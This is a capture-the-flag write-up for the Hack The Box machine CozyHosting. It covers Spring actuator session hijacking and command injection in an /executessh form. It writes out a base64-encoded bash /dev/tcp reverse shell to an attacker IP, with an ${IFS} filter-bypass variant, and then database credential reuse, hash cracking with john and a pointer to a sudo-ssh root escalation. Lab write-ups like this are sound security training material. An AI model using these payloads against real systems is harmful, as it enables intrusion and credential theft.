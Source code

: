 ```yaml
---
slug: /write-up/htb/easy/cozy-hosting
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Initial scans shows exposed ports 22 and 80

Looks like it's trying to redirect to `http://cozyhosting.htb`. Let's add it to the `/etc/hosts`

```bash
curl -I cozyhosting.htb
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 21 Sep 2023 19:13:45 GMT
Content-Type: text/html;charset=UTF-8
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Language: en-US
```

Let's try to explore the directories with gobuster and it could not find anything.

Checking the headers, looks like the Content-Type is application/json, so probably there's an API behind

Checking the error pages seems the one generated by Spring Framework. We can probe that by checking if it has the `/actuator` endpoint public.

Probably the nginx server is acting as a proxy since the actuator returns localhost:8080 as the API address

`/actuator/sessions` returns interesting data:

```
{"71555732BBE84C711A910118954B72C3":"kanderson","24BF9E9AC99A7F02F4006F36634DB3F1":"UNAUTHORIZED","3C47D6E35D00F4B01B7EF0EE5F3305FA":"UNAUTHORIZED","217ABE7CFC46C07AF69818945F9B702E":"kanderson"}
```

## Foothold

If we check the page, looks like there's a login page, if we change the `JSESSIONID` cookie by the value in the `/actuator/sessions` for user `kanderson`, we'll be redirected to the `/admin` page.

Once we enter the admin page we see a form that if we send it will call the `/executessh` endpoint ...

From the error, we could think that is calling the ssh command directly, so maybe this is vulnerable to command injection. We can try to get the output of `id` command.

Looks like hostname is validated somehow, however with username we can break the command execution:

```bash
curl -vvvvv 'http://cozyhosting.htb/executessh' -X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Cookie: JSESSIONID=B762D32C36AE8003E582400AC70E4261' \
--data-raw 'host=localhost&username=`id`'
```

It's pretty hard to know how to make the command execution works, you need to try several combinations with `\`` and `;` and eventually got it working. Now let's open a reverse shell. In order to get the reverse shell, take into account that username cannot have spaces, a minimal validation is done.


To generate the payload that generates the reverse shell:

1. Search a payload here: https://www.revshells.com/
```
/bin/bash -i >& /dev/tcp/10.10.14.183/4444 0>&1
```
2. Let's base64 it:
```
echo "bash -i >& /dev/tcp/10.10.14.183/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg==
```
3. Make the payload: echo the base64 payload, then base64 decode the payload and let bash run the payload:
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg== | base64 -d | bash
```
You can run that payload and it should create a new connection to the listening nc

4. The endpoint don't link spaces, so let's replace it for the IFS character:

`echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`

However, if we try that payload, it will complain about whitespaces...

5. Do URL-encode and it will work

Now we have foot-hold in the machine but without a relevant user

## Lateral movement

if we do ls we can see a jarfile, let's download it. Searching inside the jar file, we see a promising thing, the configuration for the postgres database:

```conf
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```bash
psql --user postgres --host localhost --port 5432 --password
```

We can find the users database:

```bash
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
```

The password for `kanderson` can be seen in the code and is `MRdEQuv6~6P9`

Nothing seems to indicate the password for user `josh`. Let's try to crack the password for admin with john the ripper:

```bash
john exfil/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

With that password, we can now enter the ssh with user `josh` and we are in and we can read the user flag.

## Privilege escalation

`sudo -l` shows that the user `josh` can run ssh with root privileges, let's check in GTFO bins how to use it to get root access.
